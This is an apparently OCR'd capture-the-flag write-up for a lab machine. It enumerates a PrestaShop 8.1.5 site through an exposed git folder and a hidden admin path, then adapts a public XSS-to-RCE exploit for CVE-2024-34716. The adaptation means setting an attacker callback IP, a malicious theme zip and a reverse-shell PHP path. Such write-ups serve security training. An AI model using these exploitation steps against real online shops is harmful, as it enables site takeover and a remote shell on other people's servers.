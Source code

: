 ```bash
total 232K
drwxr-xr-x 4 kali kali 4.0K Sep 22 16:05 .
drwxr-xr-x 4 kali kali 4.0K Sep 22 16:04 ..
drwxr-xr-x 8 kali kali 4.0K Sep 22 16:05 admin634ewutrx1jgitlooaj
-rw-r--r-- 1 kali kali 1.3K Sep 22 16:05 autoload.php
-rw-r--r-- 1 kali kali 2.5K Sep 22 16:05 error500.html
drwxr-xr-x 7 kali kali 4.0K Sep 22 16:05 .git
-rw-r--r-- 1 kali kali 1.2K Sep 22 16:05 index.php
-rw-r--r-- 1 kali kali 1.3K Sep 22 16:05 init.php
-rw-r--r-- 1 kali kali  522 Sep 22 16:05 Install_PrestaShop.html
-rw-r--r-- 1 kali kali 5.0K Sep 22 16:05 INSTALL.txt
-rw-r--r-- 1 kali kali 180K Sep 22 16:05 LICENSES
-rw-r--r-- 1 kali kali  863 Sep 22 16:05 Makefile
-rw-r--r-- 1 kali kali 1.6K Sep 22 16:05 .php-cs-fixer.dist.php
```



## Web exploitation

### Enumeration

```bash
     --- ===== Installation instructions for PrestaShop 8 ===== ---
```

If we read INSTALL.txt we can see it's using PrestaShop 8

After we visit `/admin634ewutrx1jgitlooaj`, We can see version: `8.1.5`

### XSS->RCE

Upon googling `Petrashop ecommerce RCE with the version` we get\
[https://github.com/aelmokhtar/CVE-2024-34716](https://github.com/aelmokhtar/CVE-2024-34716)\
\
We can further exploit this.

### Edits

So there are few things we need to edit inside `expoit.html`and `exploit.py`

HTML edits:

```javascript
const baseUrl = 'http://shop.trickster.htb'; //'http://prestashop:8000'; 
const path = 'admin634ewutrx1jgitlooaj';  //'admin-dev';
const httpServerIp = '<YOUR IP>';
const httpServerPort = 81;
const fileNameOfTheme = "ps_next_8_theme_malicious.zip";
```

Exploit.py Edits:

```python
def send_get_requests(interval=1):
    url = f"{host_url}/themes/next/a.php" #reverse_shell.php
```
